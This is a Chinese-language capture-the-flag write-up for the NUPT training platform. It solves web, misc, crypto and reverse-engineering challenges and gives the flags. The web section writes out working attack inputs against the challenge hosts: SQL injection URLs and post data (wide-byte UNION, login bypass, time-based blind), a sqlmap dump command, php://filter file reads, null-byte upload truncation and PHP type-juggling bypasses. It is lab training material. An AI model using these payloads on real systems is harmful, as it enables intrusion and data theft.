

南邮CTF平台网址：
WEB
签到题
nctf{flag_admiaanaaaaaaaaaaa}
ctrl+u或右键查看源代码即可。在CTF比赛中，代码注释、页面隐藏元素、超链接指向的其他页面、HTTP响应头部都可能隐藏flag或提示信息。在渗透测试中，开发者留下的多余注释和测试页面有时也能提供线索。
md5 collision
nctf{md5_collision_is_easy}
1 |
|
利用PHP弱类型，前人发现md5(‘QNKCDZO’)=’0e830400451993494058024219903391’，md5(‘240610708’)=’0e462097431906509019562988736854’，而因为使用松散比较的缘故，var_dump(‘0e830400451993494058024219903391’==’0e462097431906509019562988736854’);值为真，因此访问 http://chinalover.sinaapp.com/web19/?a=240610708 即可。
1、在PHP中，@被称为错误控制操作符(error control operator)，前置@符号的表达式产生的任何错误都将被忽略。
2、1992年发布的MD5算法是一种广泛使用的哈希算法，最初被设计用来作为加密算法，在被证明不安全后只能用来做数据完整性校验。MD5算法为消息产生128位摘要，常表示为32位十六进制串，由[0-9a-e]组成。
3、PHP的比较操作符主要有两类——松散比较和严格比较，于是就有了equal(==)和Identical(===)两种相等，主要区别在于前者会在比较前根据上下文对操作数进行类型转换(type juggling)而后者不会。这种juggle总的来说利大于弊，但确实容易玩脱。
此处只谈涉及字符串和数值的松散比较。根据本地实验结合官方文档，我们可以总结出来，这种类型转换的行为关键在于两点，一是判断字符串是否处于数字语境(in a numeric context)，二是如何为处于数字语境的字符串取值。
当操作符为==时，若有一个操作数为int/float或两个操作数is_numeric()均为真，则判断为处于数字语境；当操作符为数字操作符，如+-/*时，则判断为处于数字语境。（此段为实验支持下的个人猜测，未找到依据。）
根据PHP官方文档 ，如果一个字符串被认定处于数字语境，那么它的取值取决于字符串的前面一部分，如果字符串以有效的数字型数据【Valid numeric data ，正则匹配表达为 \s(\d+\.?\d*|\.\d+)([eE]\d+)?\s，含有[eE]的视为科学计数法】开头，那么字符串取开头部分的数值，否则取0 。实验发现1e也被取值为1而不是0，这有点奇怪 :(
1 |
|
4、其他符合/0[eE]\d{30}/的MD5值：
| string(strlen($var)) $var | string(strlen(md5($var))) md5($var) |
|---|---|
| QNKCDZO | 0e830400451993494058024219903391 |
| s878926199a | 0e545993274517709034328855841020 |
| s155964671a | 0e342768416822451524974117254469 |
| s1502113478a | 0e861580163291561247404381396064 |
| s214587387a | 0e848240448830537924465865611904 |
| s878926199a | 0e545993274517709034328855841020 |
| s1091221200a | 0e940624217856561557816327384675 |
| s1885207154a | 0e509367213418206700842008763514 |
| s1836677006a | 0e481036490867661113260034900752 |
| s1184209335a | 0e072485820392773389523109082030 |
| s1665632922a | 0e731198061491163073197128363787 |
| s532378020a | 0e220463095855511507588041205815 |
| 240610708 | 0e462097431906509019562988736854 |
签到2
1 | <html> |
nctf{follow_me_to_exploit}
maxlength=”10” 而口令 zhimakaimen 有11位，数据在前端就会被截断掉。这时有两种做法，一种是在chrome/Firefox浏览器的开发者工具中将 maxlength=”10” 字段修改为 maxlength=”11” 或是更大的值；另一种是使用hackbar或burp直接向 http://teamxlc.sinaapp.com/web1/02298884f0724c04293b4d8c0178615e/index.php post text1=zhimakaimen 。客户端的行为都是可控的，所以熟悉HTML和JavaScript是重要的。
这题不是WEB
nctf{photo_can_also_hid3_msg}
下载图片并用winhex打开，在末尾发现字符串。一个简单的隐写。
层层递进
nctf{this_is_a_fl4g}
查看源代码，跟随链接，依次访问SO.html -> S0.html->SO.htm ->S0.htm->404.html ，在最后一个页面里的注释部分可找到flag。还是查看源代码，细心就会发现异常。
AAencode
nctf{javascript_aaencode}
aaencode是一种把js代码编码成日语颜文字的编码方式，使用Unicode编码查看，然后 在线解码 。工具作者颇有幽默感。
单身二十年
nctf{yougotit_script_now}
访问 http://chinalover.sinaapp.com/web8/search_key.php 会被重定向到 http://chinalover.sinaapp.com/web8/no_key_is_here_forever.php ，重定向会被浏览器自动处理，burp抓包则可见flag。
你从哪里来
你是从 google 来的吗？
传送门：题目地址
nctf{http_referer}
给请求加上referer: https://www.google.com即可。从https://github.com/otakekumi/NUPT_Challenges/blob/master/WEB/%E4%BD%A0%E4%BB%8E%E5%93%AA%E9%87%8C%E6%9D%A5/index.php 看到源代码可能有点问题。
1 |
|
第二行应该是$referer = $_SERVER['HTTP_REFERER']; ？
php decode
1 |
|
nctf{gzip_base64_hhhhhh}
运行代码即可。
文件包含
nctf{edulcni_elif_lacol_si_siht}
使用PHP的filter协议读取index.php，即访问 http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/convert.base64-encode/resource=index.php ，将得到的字符串base64解码。
单身一百年也没用
nctf{this_is302redirect}
flag藏在响应头中。
Download~!
nctf{download_any_file_666}
访问 http://way.nuptzj.cn/web6/download.php?url=base64-of-file-name 可以下载允许下载的任意文件，所以先下载download.php，得到白名单列表里有hereiskey.php，再下载下来就可见flag。
COOKIE
nctf{cookie_is_different_from_session}
看到响应头中有Set-Cookie: Login=0，因此在请求头加入Cookie: Login=1即可。
MYSQL
nctf{query_in_mysql}
根据提示查看robots.txt，内容如下
1 | TIP:sql.php |
说明要向sql.php提交一个id，使得intval($_GET[id])为1024而$_GET[id]==1024为假。intval识别到非数字的那一位，而松散比较前的强制类型转换会把e当作科学计数法的一部分处理，所以可以提交id=1024e1等，如访问http://chinalover.sinaapp.com/web11/sql.php?id=1024e1。
1、robots.txt可能藏有提示
2、
int intval ( mixed $var [, int $base = 10 ] )只取/\d*/的部分。
sql injection 3
nctf{gbk_3sqli}
分别访问id=2和id=3得到提示gbk_sql_injection和the fourth table，所以是存在宽字节注入，flag在第四个表里面。上sqlmap跑一跑，最后一步是这样：
1 | python sqlmap.py -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%d6'" -T ctf4 -C flag --dump |
也可以手注：
步骤一：确认该点存在注入
1 | http://chinalover.sinaapp.com/SQL-GBK/index.php?id=2 和 |
步骤二：查询数据库名
1 | 发现支持union查询 ， |
步骤三：查询名为’sae-chinalover’的数据库的表的数量和名字
1 | http://chinalover.sinaapp.com/SQL-GBK/index.php?id=2%d6'+and+0+union+select+null,count(*)+from+information_schema.tables+where+table_schema=database()--+ |
步骤四：查询表’ctf4’中的flag
1 | http://chinalover.sinaapp.com/SQL-GBK/index.php?id=2%d6'+and+0+union+select+null,count(*)+from+ctf4--+ |
附一个select查询语法
1 | SELECT |
/x00
nctf{use00to_jieduan}
访问得到源码
1 | if (isset ($_GET['nctf'])) { |
要求提交的nctf的值符合正则匹配(一个或多个数字)并且能被strpos找到#biubiubiu ，根据提示查到资料ereg会把null视为字符串的结束，从而被%00截断，而strpos则可以越过%00，所以提交nctf=1%00%23biubiubiu即可。
由于在PHP中string的实现本质上是一个以字节为单位的数组加上一个声明缓冲区长度的整形，因此string类型可以由任何值构成，即使是“NUL bytes”，但PHP中有些底层库（比如C语言相关的，因为C语言中\0标识字符串的结束）会忽略”a NUL byte”后面的数据，使用了这些库的函数就是非二进制安全的(non-binary-safe)，ereg就是一个例子。闲着无聊搜了一下发现还有这么一些函数：
- int strcoll ( string $str1 , string $str2 )
Locale based string comparison (when current locale is not C or POSIX) - public array TokyoTyrantTable::get ( mixed $keys )
Gets a row from table database. (version>0.3.0) - public Exception::__construct ([ string $message = “” [, int $code = 0 [, Throwable $previous = NULL ]]] )
Construct the exception 。其中对message的处理是非二进制安全的。 - public Error::__construct ([ string $message = “” [, int $code = 0 [, Throwable $previous = NULL ]]] )
Construct the error object 。其中对message的处理是非二进制安全的。 - bool error_log ( string $message [, int $message_type = 0 [, string $destination [, string $extra_headers ]]] )
Sends an error message to the web server’s error log or to a file.。其中对message的处理是非二进制安全的。(error_log() is not binary safe. message will be truncated by null character.) - bool radius_put_string ( resource $radius_handle , int $type , string $value [, int $options = 0 [, int $tag ]] )
Attaches a string attribute。 其中$value值基于会被null截断的底层库，是非二进制安全的。 - bool radius_put_vendor_string ( resource $radius_handle , int $vendor , int $type , string $value [, int $options = 0 [, int $tag ]] )
Attaches a vendor specific string attribute 。$value是非二进制安全的。 - string addcslashes ( string $str , string $charlist ) （存疑，似乎并不是）
Quote string with slashes in a C style. Returns a string with backslashes before characters that are listed in charlist parameter. - array gzfile ( string $filename [, int $use_include_path = 0 ] ) （存疑，待验证）
Read entire gz-file into an array - 还有这些
1 |
|
bypass again
nctf{php_is_so_cool}
访问得到源码
1 | if (isset($_GET['a']) and isset($_GET['b'])) { |
源码要求提交两个不相等的值使他们的md5值严格相等。md5()函数要求接收一个字符串，若传递进去一个数组，则会返回null，即var_dump(md5(array(2))===null);值为bool(true) ，因此向$_GET数组传入两个名为a、b的不相等的数组，从而导致md5()均返回空，于是得到flag，如访问 http://chinalover.sinaapp.com/web17/index.php?a[]=&b[]=1
变量覆盖
nctf{bian_liang_fu_gai!}
source.php核心代码如下
1 |
|
extract()函数原型为int extract(array &$var_array [,int $extract_type=EXTR_OVERWRITE [,string $prefix = NULL]]) ，从数组中将变量导入当前符号表，$extract_type缺省值为1，若没有另外指定，函数将覆盖已有变量，故传入任意pass和与之相等的thepassword_123即可。其实我们甚至可以覆盖theflag变量，但是那样就拿不到真正的flag了 :D。source.php包含源码。
PHP是世界上最好的语言
nctf{php_is_best_language}
index.txt核心代码如下
1 |
|
网页会拒绝任何含有hackerDJ的提交(忽略大小写)，但接受urldecode后为hackerDJ的字符串，所以按照对照表编码，并将%编码为%25后提交，自动解码一次后%25变为%,代码中再解码一次后便得到flag。即访问 http://way.nuptzj.cn/php/index.php?id=%2568%2561%2563%256b%2565%2572%2544%254a 这是个二次编码的问题。
伪装者
这是一个到处都有着伪装的世界
题目地址：点我
nctf{happy_http_headers}
referer改了没用，据说请求头添加X-Forwarded-For: 127.0.0.1即可，没有成功，怀疑服务端代码有问题，可能是和你从哪里来那题一样的问题。XFF头用以标志客户端真实IP，常用在使用HTTP 代理或者负载均衡服务时。
header
nctf{tips_often_hide_here}
使用chrome浏览器的开发者工具可以看到相应数据包的头部有flag字段，其值即flag。
上传绕过
题目地址：猜猜代码怎么写的
nctf{welcome_to_hacks_world}
当filename为1.jpg时返回如下:
1 | Array |
当filename为1.php时返回如下：
1 | Array |
观察源码为：
1 | 文件上传<br><br> |
因为最后应该是dir和file连接，所以可以通过修改隐藏元素dir的value来实现截断上传。即抓包后修改
/uploads/为/uploads/1.php0x00，然后file保持1.jpg，连起来后就是/uploads/1.php%001.jpg，则既绕过了白名单验证又上传了PHP后缀的文件。（0x00是指修改16进制值，不可见。）
sql注入1
听说你也会注入？
地址： 题目地址
nctf{ni_ye_hui_sql?}
在 http://chinalover.sinaapp.com/index.phps 查看源码，核心部分如下：
1 |
|
会对传入参数两端去空格，然后sql拼接如下
$sql="select user from ctf where (user='".$user."') and (pw='".$pass."')"; ，
所以只要用构造一下user的值，使语法无误，然后注释掉后面的即可。MySQL主要有三种注释方式#注释到行尾，/*bla*/用于行间或多行注释，--也是注释到行尾，但需要注意的是在两个减号后面至少要有一个\s，也就是空格，TAB，换行符等。
所以本题可post user=admin')-- -&pass=123或user=admin')#&pass=123，
sql语句就变成select user from ctf where (user='admin')#' and (pw='123'),
查询语句就能成功返回user列，值为admin的那条记录。
pass check
nctf{strcmp_is_n0t_3afe}
1 |
|
考察PHP弱类型，从PHP社区文档的注解可以发现strcmp函数在比较失败，即传入数组，时会返回null。(还有一个比较有意思的是当有一个字符串长度为0时，返回的是相互比较的两个字符串长度的差值。)所以post的数据为pass[]=
起名字真难
nctf{follow_your_dream}
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
> function noother_says_correct($number)
> {
> $one = ord('1');
> $nine = ord('9');
> for ($i = 0; $i < strlen($number); $i++)
> {
> $digit = ord($number{$i});
> if ( ($digit >= $one) && ($digit <= $nine) )
> {
> return false;
> }
> }
> return $number == '54975581388';
> }
> $flag='*******';
> if(noother_says_correct($_GET['key']))
> echo $flag;
> else
> echo 'access denied';
>
>
要求传入key不包含[1-9]，但又等于54975581388，考虑转十六进制，发现54975581388=0xccccccccc，
因此访问 http://chinalover.sinaapp.com/web12/index.php?key=0xccccccccc
密码重置
重置管理员账号：admin 的密码
你在点击忘记密码之后 你的邮箱收到了这么一封重置密码的邮件：
点击此链接重置您的密码
nctf{reset_password_often_have_vuln
修改重置链接的URL和POST中对应参数为admin相关的即可。
即向 http://nctf.nuptzj.cn/web13/index.php?user1=YWRtaW4%3D post user=admin&newpass=aaaaa&vcode=1234 。
php反序列化
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
> class just4fun {
> var $enter;
> var $secret;
> }
> if (isset($_GET['pass'])) {
> $pass = $_GET['pass'];
> if(get_magic_quotes_gpc()){
> $pass=stripslashes($pass);
> }
> $o = unserialize($pass);
> if ($o) {
> $o->secret = "*";
> if ($o->secret === $o->enter)
> echo "Congratulation! Here is my secret: ".$o->secret;
> else
> echo "Oh no... You can't fool me";
> }
> else echo "are you trolling?";
> }
>
链接失效，本地搭建环境实验。反序列化后的secret成员被赋予未知的值却要求另一成员enter其值与之相同，
从官方文档看到这么一句
Circular references inside the array/object you are serializing will also be stored，
说明对象包含的引用在序列化时也会被存储，所以如果enter指向secret的引用，两个成员的值就可以同步变化了。
1 |
|
输出如下
O:8:”just4fun”:2:{s:6:”secret”;N;s:5:”enter”;R:2;}
just4fun Object ( [secret] => [enter] => )
访问
http://127.0.0.1/nanyou.php?pass=O:8:%22just4fun%22:2:{s:6:%22secret%22;N;s:5:%22enter%22;R:2;}
验证成功。
别处看到flag为nctf{serialize_and_unserialize}
sql injection4
继续注入吧~
题目地址TIP:反斜杠可以用来转义
仔细查看相关函数的用法
nctf{sql_injection_is_interesting}
页面源代码注释中有SQL构造方式：
1 | #GOAL: login as admin,then get the flag; |
核心函数是htmlentities($str, ENT_QUOTES) ，函数原型是这样
1 | string htmlentities ( string $string [, int $flags = ENT_COMPAT | ENT_HTML401 [, string $encoding = ini_get("default_charset") [, bool $double_encode = true ]]] ) |
参数flags缺省情况下与$flags=ENT_QUOTES情况下函数行为不同，
选值为ENT_QUOTES时Will convert both double and single quotes，
也就是说，前者不会将单引号编码而后者会。我们的最终目标是平衡引号，从而使查询语句语法正确，既然无法输入单引号，就消灭单引号。
访问http://chinalover.sinaapp.com/web15/index.php?username=\&password=%20or%201%23，
也就是构造payload为?username=\&password=%20or%201%23 ，使得查询语句如下：
1 | SELECT * FROM users WHERE name='\' AND pass='%20or%201%23' |
附：
具体编码方式可使用
print_r(get_html_translation_table($table =HTML_ENTITIES,$flags=ENT_QUOTES))查看，
| `ENT_COMPAT | ENT_HTML401` | ENT_QUOTES |
|---|---|---|
[&] => & |
[&] => & |
|
["] => " |
["] => " |
|
[<] => < |
['] => ' |
|
[>] => > |
[<] => < |
|
| … | [>] => > |
|
| 共100个 | 共101个 |
综合题
nctf{bash_history_means_what}
1、访问链接得到一大段jsfuck代码，解码后得到document.write("1bc29b36f623ba82aaf6724fd3b16718.php") ;
2、访问 http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/1bc29b36f623ba82aaf6724fd3b16718.php 在HTTP响应头得到提示tip:history of bash;
3、访问 http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/.bash_history ，看到页面内容为zip -r flagbak.zip ./* ;
4、访问 http://teamxlc.sinaapp.com/web3/b0b0ad119f425408fc3d45253137d33d/flagbak.zip 得到flag。
sql 注入2
注入第二题~~主要考察union查询
传送门:点我带你飞
ntcf{union_select_is_wtf}
index/phps中有源码如下
1 |
|
因为
1 | var_dump(!strcasecmp(array(), $query[pw]));//bool(true) |
所以没法用把pass作为数组传进去的伎俩。另外虽然第七行的$user处存在注入，但输出没有回显。想到基于时间延迟的盲注。主要用到三个函数，mid()，if()和sleep()：
1 | MID(str,pos,len) |
所以构造post数据
1 | user=admin' and if(mid(pw,1,1)>'9',sleep(2),1)#&pass=blabla |
如果if()函数的expr1正确，页面响应就会延时两秒，否则不会，以此为依据采用二分法调整。
pw字段的取值范围为/[\da-e]/，
最后注处字段值为21dd715a3605b2a4053e80387116c190，即md5('njupt')
然后postuser=admin&pass=njupt即可。
index.phps藏源码。
2
3
4
> user=' union select '45cf93bd4f762c6597b68e615b153bd0'#&pass=findneo
> 其中'45cf93bd4f762c6597b68e615b153bd0'即md5('findneo')
>
这才是出题者的本意。我觉得这个做法很妙，看似理所当然的代码逻辑实际上不堪一击。
综合题2
非xss题 但是欢迎留言~
地址：get the flag
flag:nctf{you_are_s0_g00d_hacker}
注入实战一
请使用firefox浏览器，并安装hackbar插件（自行百度并熟悉）
目标网址：地址
flag为管理员密码的32位md5(小写)
并且加上nctf{}手注教程群里面发过。
看不懂的话自行百度”mysql手动注入”查阅相关文章PS:用sqlmap等工具做的就不要厚脸皮提交了
题目貌似坏了，放个 4ct10n 的解答吧。
密码就在上图BSCmarketing24
然后再md5加密成 f3d6cc916d0739d853e50bc92911dddb
flag: nctf{f3d6cc916d0739d853e50bc92911dddb}
密码重置2
题题被秒，当时我就不乐意了！
本题来源于CUMT
题目链接TIPS:
1.管理员邮箱观察一下就可以找到
2.linux下一般使用vi编辑器，并且异常退出会留下备份文件。(用vim编辑则不会)
3.弱类型bypass
nctf{thanks_to_cumt_bxs}
1、按照提示，源码中看到管理员邮箱为`admin@nuptzj.cn` ；
2、wget http://nctf.nuptzj.cn/web14/.submit.php.swp ；
3、vi -r .submit.php.swp
1 | if(!empty($token)&&!empty($emailAddress)){ |
要求token长度为10且token!='0'为假，可利用弱类型（含有数字内容的字符串也会被转换类型，所以'0e123'=='0'值为真）绕过，访问 http://nctf.nuptzj.cn/web14/submit.php?emailAddress=admin%40nuptzj.cn&token=0e12345678 即可。
MISC
图种
flag是动态图最后一句话的拼音首字母
加上nctf{}
nctf{dssdcmlw}
binwalk -e 555.gif分离出一张233333.gif，动态图的最后一帧的最后一句话是 都深深的出卖了我
丘比龙De女神
丘比龙是丘比特的弟弟，由于吃了太多的甜甜圈导致他飞不动了！
没错 里面隐藏了一张女神的照片
flag是照片文件的md5值(小写)
记住加上flag{}
文件尾有nvshen.jpg字样，故搜索字符串nvshen，共出现两次，猜测从第一次出现位置上方的love起到文件末尾为一个密码为love的压缩包，复制出来后修改6C6F7665 为504b0304 ,解压得到女神的照片。
flag{a6caad3aaafa11b6d5ed583bef4d8a54}
密码学
easy!
密文：bmN0Znt0aGlzX2lzX2Jhc2U2NF9lbmNvZGV9
这题做不出来就剁手吧！
nctf{this_is_base64_encode}
在Linux命令行输入echo bmN0Znt0aGlzX2lzX2Jhc2U2NF9lbmNvZGV9 | base64 -d即可
keyboard
看键盘看键盘看键盘！
答案非标准格式，提交前加上nctf{}
ytfvbhn tgbgy hjuygbn yhnmki tgvhn uygbnjm uygbn yhnijm
观察题干字符串在键盘上的位置构成的轨迹。
nctf{areuhack}
base64全家桶
全家桶全家桶全家桶！
我怎么饿了。。。。。。
密文(解密前删除回车)：R1pDVE1NWlhHUTNETU4yQ0dZWkRNTUpYR00zREtNWldHTTJES
1JSV0dJM0RDTlpUR1kyVEdNWlRHSTJVTU5SUkdaQ1RNTkJWSVk
zREVOUlJHNFpUTU5KVEdFWlRNTjJF
按base64、base32、base16的顺序解码一遍即可。
nctf{base64 _ base32_and_base16}
n次base64
1 | import base64 as b |
nctf{please_use_python_to_decode_base64}
骚年来一发吗
密文：iEJqak3pjIaZ0NzLiITLwWTqzqGAtW2oyOTq1A3pzqas
2
3
4
5
6
7
8
9
10
11
> $_o=strrev($str);
> for($_0=0;$_0<strlrn($_o),$_0++){
> $_c=substr($_o,$_0,1);
> $__=ord($_c)+1;
> $_c=chr($__);
> $_=$_.$_c;
> }
> return str_rot13(strrev(base64_encode($_)));
> }
>
encode函数先反转明文字符串，再逐字符加一，然后base64编码，再反转，再rot13，然后返回加密后的字符串。
1 |
|
nctf{rot13and_base64and_strrev}
mixed base64
多重base64加密，干(sang)得(xin)漂(bing)亮(kuang)!
2
3
4
5
6
7
8
9
10
11
12
13
14
> from base64 import *
> result={
> '16':lambda x:b16encode(x),
> '32':lambda x:b32encode(x),
> '64':lambda x:b64encode(x)
> }
> flag=b"{nctf{***}"
> for i in range(10):
> a=random.choice(['16','32','64'])
> flag=result[a](flag)
> with open("code.txt",'wb')as f:
> f.write(flag)
>
解码代码：
1 | from base64 import b64decode, b32decode, b16decode |
nctf{random_mixed_base64_encode}
异性相吸
同性真爱，异性相吸都是假的！
（题目要求，我是直的）解密压缩文件里的内容
TIPS:
1.xor
2.hex2binary
3.len(bin(miwen))==len(bin(mingwen))
1 | c=open('密文.txt').read() |
nctf{xor_xor_xor_biubiubiu}
MD5
python大法好！
这里有一段丢失的md5密文
e9032???da???08????911513?0???a2
要求你还原出他并且加上nctf{}提交已知线索 明文为： TASC?O3RJMV?WDJKX?ZM
题目来源：安恒杯
1 | import hashlib |
nctf{e9032994dabac08080091151380478a2}
Vigenere
It is said that Vigenere cipher does not achieve the perfect secrecy actually :-)
Tips:
1.The encode pragram is given;
2.Do u no index of coincidence ？
3.The key is last 6 words of the plain text(with “nctf{}” when submitted, also without any interpunction)
1 | http://ctf.nuptsast.com/static/uploads/13706e3281c1fb0c04417d3452cb745b/encode.cpp |
逆向
Hello,RE!
或许你需要去学习下IDA的使用，但是只需要学一点点就能做这题了
PS:IDA里面按R可以把奇怪的数字变成字符串格式为
flag{*****}包含flag{}提交参考资料：
《IDA Pro 权威指南》
各种CTF比赛的逆向部分的writeup
拖进IDA，定位到main函数，按F5反编译。对着V5~V10逐个按R将十六进制转为字符串即可。flag{Welcome_To_RE_World!}

ReadAsm2
读汇编是逆向基本功。
给出的文件是func函数的汇编
main函数如下
输出的结果即为flag，格式为flag{**********}，请连flag{}一起提交编译环境为linux gcc x86-64
调用约定为System V AMD64 ABI
请不要利用汇编器，IDA等工具。。这里考的就是读汇编与推算汇编结果的能力
2
3
4
5
6
7
8
9
10
> {
> char input[] = {0x0, 0x67, 0x6e, 0x62, 0x63, 0x7e, 0x74, 0x62, 0x69, 0x6d,
> 0x55, 0x6a, 0x7f, 0x60, 0x51, 0x66, 0x63, 0x4e, 0x66, 0x7b,
> 0x71, 0x4a, 0x74, 0x76, 0x6b, 0x70, 0x79, 0x66 , 0x1c};
> func(input, 28);
> printf("%s\n",input+1);
> return 0;
> }
>
参考资料:
https://github.com/veficos/reverse-engineering-for-beginners
《汇编语言》王爽
《C 反汇编与逆向分析技术揭秘》2.asm :
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
> 4004e6: 55 push rbp
> 4004e7: 48 89 e5 mov rbp,rsp
> 4004ea: 48 89 7d e8 mov QWORD PTR [rbp-0x18],rdi
> 4004ee: 89 75 e4 mov DWORD PTR [rbp-0x1c],esi
> 4004f1: c7 45 fc 01 00 00 00 mov DWORD PTR [rbp-0x4],0x1
> 4004f8: eb 28 jmp 400522 <func+0x3c>
> 4004fa: 8b 45 fc mov eax,DWORD PTR [rbp-0x4]
> 4004fd: 48 63 d0 movsxd rdx,eax
> 400500: 48 8b 45 e8 mov rax,QWORD PTR [rbp-0x18]
> 400504: 48 01 d0 add rax,rdx
> 400507: 8b 55 fc mov edx,DWORD PTR [rbp-0x4]
> 40050a: 48 63 ca movsxd rcx,edx
> 40050d: 48 8b 55 e8 mov rdx,QWORD PTR [rbp-0x18]
> 400511: 48 01 ca add rdx,rcx
> 400514: 0f b6 0a movzx ecx,BYTE PTR [rdx]
> 400517: 8b 55 fc mov edx,DWORD PTR [rbp-0x4]
> 40051a: 31 ca xor edx,ecx
> 40051c: 88 10 mov BYTE PTR [rax],dl
> 40051e: 83 45 fc 01 add DWORD PTR [rbp-0x4],0x1
> 400522: 8b 45 fc mov eax,DWORD PTR [rbp-0x4]
> 400525: 3b 45 e4 cmp eax,DWORD PTR [rbp-0x1c]
> 400528: 7e d0 jle 4004fa <func+0x14>
> 40052a: 90 nop
> 40052b: 5d pop rbp
> 40052c: c3 ret
>